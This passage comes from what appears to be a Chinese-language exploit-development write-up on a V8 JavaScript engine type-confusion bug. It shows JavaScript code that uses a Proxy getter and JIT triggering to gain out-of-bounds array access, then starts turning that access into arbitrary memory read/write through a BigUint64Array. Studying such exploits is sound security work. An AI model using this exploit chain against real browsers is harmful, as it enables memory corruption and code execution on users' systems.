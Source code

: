 ```javascript
	%DebugPrint(vuln_array);
	%SystemBreak();
}

let p = new Proxy(Object, {
	get: () => {
		vuln_array[0] = {};	// 修改之后的类型是HOLEY_ELEMENTS
		oob_array = [1.1];	// 修改此数组的length来达到oob
		// %DebugPrint(vuln_array);
		// %SystemBreak();
		return Object.prototype;
	}
});

function main(p) {
	for (let i=0; i<0xc00c; i++) {empty();}	// 触发JIT
	f(p);
}

function confusion_to_oob() {
	for (let i=0; i<0xc00c; i++) {empty();}	// 触发JIT

	main(empty);
	main(empty);

	main(p);
	console.log("oob_array.length: " + hex(oob_array.length));
}

confusion_to_oob();
```

打印`oob_array`的`length`来查看修改是否成功，发现长度顺利被修改为`c00c`。

![image-20210108075929683](https://blog-0x2l.oss-cn-beijing.aliyuncs.com/img/image-20210108075929683.png)

## 任意地址读写

稍微回想一下我们的`BigUint64Array`对象，只要我们控制了`external_pointer&&base_pointer`的值，就可以实现任意地址读写了。现在已经有了任意索引越界读写的能力，只要将`BigUint64Array`对象布置到`oob_array`数组之后，就可以随意修改`external_pointer&&base_pointer`了。还是先从`Proxy`里面做文章：

```javascript
let p = new Proxy(Object, {
	get: () => {
		vuln_array[0] = {};	// 修改之后的类型是HOLEY_ELEMENTS
		oob_array = [1.1];	// 修改此数组的length来达到oob
		uint64_arw = new BigUint64Array(2);	// 实现任意地址读写
		%DebugPrint(oob_array);
		%DebugPrint(uint64_arw);
		%SystemBreak();
		return Object.prototype;
	}
});
```
